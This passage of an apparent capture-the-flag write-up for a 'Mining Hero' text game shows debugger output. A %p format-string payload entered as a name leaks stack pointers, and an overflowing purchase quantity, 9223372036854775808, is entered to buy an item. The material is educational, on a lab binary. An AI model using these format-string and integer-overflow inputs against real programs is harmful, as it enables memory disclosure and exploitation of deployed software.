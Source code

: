 The address was `0x7fffffffda76`, and since I had ASLR disabled on my machine, I just needed to search for the location of this address when I used a string formatter in my name. In the below example, you can see that the address `0x7fffffffda76` is the twelfth pointer being popped off of the stack.

```
Starting program: /home/n/Documents/Exploitation/metactf/Mining Hero/text-game
Welcome to this very in-depth game. The goal is to amass wealth and earn the god's favor.
Before we continue, what is your name?
%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.
Current funds: $150
Your options are:
1: Place a bet on a coin flip for a chance to double your money
2: Go mining to earn some money
3: Buy things
4: Quit (Your money will not be saved)
Please enter a number 1-4 to continue...
3
What would you like to buy? Options are encouragement (cost: 20), shout-out-from-literally-god (cost: 1000000000000000), tool (cost: 100), or cancel
shout-out-from-literally-god
How many would you like to buy? Must be greater than 0
9223372036854775808
Hmmmm
0x555555570eb0.(nil).0x7ffff7cc51e7.0x6.0x7ffff7d9f240.0x250070252e70252e.0x8000000000000000.0x2e70252e70252e70.0x7fffffffdad0.0x38d7ea4c68000.(nil).0x7fffffffda76.0x555555571720.0x555555571ef0.(nil).0x7fffffffdad8.(nil).(nil).(nil).0x555555571ef0.0x555555571ea0.0x555555571700.0x3.0x5555555716d0.0x1c.0x1e.0x2d6d6f72662d74.(nil).(nil).(nil).(nil).0x7fffffffdb50.0x4.0x6c6f6f74.(nil).0x64.0x7fffffffdb78.0xd.0x676172756f636e65.0x746e656d65.0x14.0x5555555716d0.0x1c.0x1c.(nil).0x38d7ea4c68000.(nil).0x2.0x800000000000000e.(nil).0x7ffff7c467b2.(nil).0x7ffff7e6d198.(nil).0x7ffff7da06a0.0x7ffff7fa0700.0x3.0x7ffff7f951a8.0x7ffff7f93ec0.0xff00000006.0x7ffff7c3a541.0x7ffff7d9f980.0x7ffff7d9f980.0x7ffff7da08a0.0x5d4990340e914700.(nil).0x7ffff7fa0700.(nil).0x7ffff7f951a8.0x7ffff7f93ec0.(nil).0x55555555e160.0x7ffff7e69f38.0x7ffff7fa0700.0x7fffffffdca0.0x7ffff7fa0700.0x6.0x6.0x5d4990340e914700.0x7fffffffdd2f.0x7fffffffdd30.0x7fffffffdd30.0x7ffff7f9ed00.0x33.0x33.0x7ffff7f9ed00.0x7ffff7e85176.0xa.0x3fffffffffffffff.0x7ffff7fa0700.0x1.0xf7f6f5f4f3f2f101.0x7ffff7f061ee.0x7ffff7fa0ce0.0x555555559eb0.0x7fffffffdd70.0x5d4990340e914700.0x7fffffffdec0.0x555555559eb0.0x5555555566b0.0x7fffffffdec0.0x7fffffffddd0.0x555555557a0d.0x7fffffffdec8.0x155557b43.0x7fffffffdda0.0x1.0x7ffff7da0033.0x555555559eb0.(nil).0x5d4990340e914700.0x555555559eb0.0x5555555566b0.(nil).0x7ffff7bdb0b3.0x7ffff7d9fb80.0x7fffffffdec8.0x100011c00.0x5555555577de.0x555555559eb0.0x4bf57339303d8b0.0x5555555566b0.0x7fffffffdec0.(nil).(nil).0xfb40a8cc28c3d8b0.0xfb40b848f3cdd8b0.(nil).(nil).(nil).0x1.0x7fffffffdec8.0x7fffffffded8.0x7ffff7ffe190.(nil).(nil).0x5555555566b0.0x7fffffffdec0.(nil).(nil).0x5555555566de.0x7fffffffdeb8.0x1c.0x1.0x7fffffffe243.(nil).0x7fffffffe280.0x7fffffffe290.0x7fffffffe2d8.0x7fffffffe2eb.0x7fffffffe2ff.0x7fffffffe32c.0x7fffffffe343.0x7fffffffe36f.0x7fffffffe381.0x7fffffffe3b7.0x7fffffffe3ce.0x7fffffffe3ee.0x7fffffffe402.0x7fffffffe42b.0x7fffffffe43f.0x7fffffffe456.0x7fffffffe46e.0x7fffffffe481.0x7fffffffe49d.0x7fffffffe4d4.0x7fffffffe4ef.0x7fffffff
```

